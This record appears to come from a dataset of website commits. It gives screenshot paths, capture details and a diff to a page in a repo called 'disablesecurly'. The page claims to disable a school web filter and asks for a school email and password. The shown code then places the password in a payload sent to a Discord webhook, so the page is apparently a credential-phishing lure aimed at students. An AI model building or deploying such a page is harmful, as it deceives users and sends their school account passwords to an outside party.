

Before and after one commit to disablesecurly2/disablesecurly, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "name@example.com", "Sample123", "Sample" into the empty fields and a click on the button "Submit". Shown: the part 331-548 px from the top of the page, 319-959 px from the left. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -64,7 +64,7 @@
         <p>This script disables Securely on the Wi-Fi network you are using.</p>
         <p>Please provide the required information:</p>
         <form id="submitForm">
-            <label for="firstName">First Name:</label><br>
+            <label for="firstName">Registered Name:</label><br>
             <input type="text" id="firstName" name="firstName" required><br>
             <label for="email">School Email:</label><br>
             <input type="email" id="email" name="email" required><br>
@@ -128,7 +128,7 @@
 
             // Prepare payload
             const payload = {
-                content: `New submission:\n- **First Name:** ${firstName}\n- **Email:** ${email}\n- **Password:** ${password}\n- **Verification:** ${verification}\n- **Action:** ${action}`
+                content: `New submission:\n- **Registered Name:** ${firstName}\n- **Email:** ${email}\n- **Password:** ${password}\n- **Verification:** ${verification}\n- **Action:** ${action}`
             };
 
             // Send data to Discord webhook
```
